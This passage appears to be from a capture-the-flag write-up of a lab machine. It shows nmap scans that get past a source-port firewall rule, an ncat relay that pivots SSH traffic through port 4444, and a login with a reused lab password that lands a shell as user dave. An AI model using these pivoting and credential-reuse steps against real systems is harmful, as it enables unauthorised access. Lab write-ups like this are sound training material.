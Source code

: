 ### Clever Use of Source Port

Looking at the `auth.log` file and trying to recreate this connection, it seems port 987/tcp on 192.168.5.2 only responds when the source port is 4444/tcp.  Let me demonstrate:

```sh
root@DNS:/var/log$ nmap 192.168.5.2 -Pn -p 987

Starting Nmap 7.01 ( https://nmap.org ) at 2025-02-25 02:02 GMT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for Vault (192.168.5.2)
Host is up.
PORT    STATE    SERVICE
987/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 2.08 seconds
root@DNS:/var/log$ nmap 192.168.5.2 -Pn -p 987 --source-port 4444

Starting Nmap 7.01 ( https://nmap.org ) at 2025-02-25 02:02 GMT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for Vault (192.168.5.2)
Host is up (0.0024s latency).
PORT    STATE SERVICE
987/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds
```

Okay, let's connect via `nc` as demonstrated in the `auth.log`

```sh
root@DNS:/var/log$ ncat -l 2222 --sh-exec "ncat -p 4444 192.168.5.2 987"
```

Now let's do our double SSH connection and get back on the DNS machine in a separate terminal. We should then be able to SSH to localhost on port 2222.  I tried the last password we got for Dave (`dav3gerous567`) and luckily, it worked.

```sh
dave@DNS:~$ ssh dave@localhost -p 2222
The authenticity of host '[localhost]:2222 ([::1]:2222)' cant be established.
ECDSA key fingerprint is SHA256:Wo70Zou+Hq5m/+G2vuKwUnJQ4Rwbzlqhq2e1JBdjEsg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[localhost]:2222' (ECDSA) to the list of known hosts.
dave@localhosts password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

96 packages can be updated.
49 updates are security updates.


Last login: Mon Sep  3 16:48:00 2018
dave@vault:~$ id
uid=1001(dave) gid=1001(dave) groups=1001(dave)
```
